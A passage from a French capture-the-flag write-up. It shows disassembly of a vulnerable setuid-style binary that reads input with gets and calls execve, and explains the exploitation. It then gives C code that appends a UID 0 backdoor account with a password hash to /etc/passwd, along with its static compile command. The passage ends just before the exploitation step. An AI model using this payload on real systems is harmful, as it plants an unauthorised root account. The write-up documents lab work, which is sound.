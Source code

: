 ```nasm
0x00000715      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x0000071a      add     esp, 8
0x0000071d      push    0
0x0000071f      push    0
0x00000721      lea     eax, [var_20h]
0x00000724      push    eax
0x00000725      call    execve     ; sym.imp.execve
0x0000072a      add     esp, 0xc
0x0000072d      jmp     0x74d
0x0000072f      lea     eax, [s1]
0x00000732      push    eax
0x00000733      lea     eax, [s2]
0x00000736      push    eax
0x00000737      lea     eax, [ebx - 0x17e8]
0x0000073d      push    eax        ; const char *format
0x0000073e      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00000743      add     esp, 0xc
0x00000746      push    1          ; int status
0x00000748      call    exit       ; sym.imp.exit ; void exit(int status)
0x0000074d      mov     eax, 0
0x00000752      mov     ebx, dword [var_8h]
0x00000755      leave
0x00000756      ret
```

La fonction de lecture `gets` stoppe quand elle croise un retour à la ligne ou EOF mais accepte la présence d'octets nuls. J'en ai inclus un dans mon buffer, mais ce n'est pas nécessaire, car `strncmp` est appelé avec la taille du nom attendu (`Simon` soit la taille 5).

Lors de l'exploitation le programme appelé semblait ne plus récupérer l'effective UID à 0 donc il était sans doute dropé par bash comme c'était le cas pour le [CTF SmashTheTux]({% link _posts/2023-02-12-Solution-du-CTF-SmashTheTux.md %}).

J'ai repris la technique utilisée précédemment qui consiste à écrire dans `/etc/passwd` au lieu de tenter de lancer un shell :

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>

int main(void) {
  FILE * fd;
  fd = fopen("/etc/passwd", "a");
  fputs("devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh\n", fd);
  fclose(fd);
}
```

Une fois le binaire compilé sur ma machine (`gcc -o getroot -static -m32 getroot.c`) et déposé sur la VM je peux procéder à l'exploitation :
